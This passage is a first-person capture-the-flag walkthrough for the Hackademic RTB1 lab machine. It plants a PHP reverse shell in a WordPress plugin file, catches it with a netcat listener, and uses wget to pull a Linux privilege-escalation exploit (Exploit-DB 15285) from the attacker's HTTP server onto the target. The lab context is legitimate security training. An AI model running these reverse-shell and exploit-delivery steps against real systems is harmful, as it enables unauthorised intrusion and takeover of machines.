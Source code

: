 The idea was to modify the `hello.php` file to connect from Kali to the target. So, I opened through the terminal (in Kali) the `/usr/share/webshells/php` directory  to find a file called `php-reverse-shell.php`. This file (stored in Kali) is a sort of script to establish a reverse shell connection, so I will use it in the next steps to be able to connect and communicate with the targeted system from Kali. In particular, (after some steps I will illustrate in the following paragraphs) at a certain point I will be able to execute commands in the targeted system from remote (from Kali).

I copied the content of the `php-reverse-shell.php` file and pasted it in the `hello.php` file. At that point, I had to change a certain parameter of the `hello.php` file to specify the IP address of the machine I wanted to connect from (the Kali machine) in the reverse shell. So, I obtained the IP address of the Kali machine through an `ifconfig` command, and I inserted it in the `hello.php` file.

![IP address of Kali inserted in the `hello.php` file](screenshot_demo/IP_kali.png)

These were very important steps to establish a reverse shell connection to be able to communicate and execute remote commands on the target from Kali.

## Reverse shell connection

I ran (on the Kali terminal) the Netcat listener with the `nc -lvp 1234` command. This command "listen" from an incoming connection on the 1234 port. This port number was written in the `php-reverse-shell.php` file (so, at that point it was written in the `hello.php` file, too).

To start the connection, I browsed http://10.0.2.15/Hackademic_RTB1/wp-content/plugins/hello.php. This means I was accessing the `hello.php` file I have modified in the previously steps, and executing the script (written in the `hello.php` file) to activate a remote shell connection between Kali and the target. After that I was able to execute command within the target machine from Kali.

## Exploiting the target

The exploit can be downloaded from [here](https://www.exploit-db.com/exploits/15285). However, it's already available in Kali, so I searched for it through the terminal with the command `searchsploit 15285`. This command searches for the specified exploit in some database available in Kali and it output some information such as title and location of the exploit.

I copied the exploit file in the current directory with the command `cp /usr/share/exploitdb/exploits/linux/local/15285.c .`. Then, I ran the default Python HTTP server on port 80 on Kali with the command: `python2 -m SimpleHTTPServer 80`. I will use this server in the following steps to to download on the target the exploit from Kali.

Basically, at that point I had to:

1. download the exploit on the target machine;
2. execute the exploit on the target machine.

I have executed the following commands from remote on the target machine through the reverse shell connection established in the previously step.

- `cd /tmp`: command to navigate within the target machine in the `/tmp` directory. This directory is usually used to store and manage configuration files, temporary files and other system files.
- `wget http://10.0.2.4/15285.c`: HTTP request to download the exploit from the HTTP server on Kali (this is possible because I have previosly opened an HTTP server on Kali with the command `python2 -m SimpleHTTPServer 80`). Please note that the IP address in the specified URL in the command is the IP address of Kali (I was downloading the exploit on the target, so I had to contact the Kali machine for this).
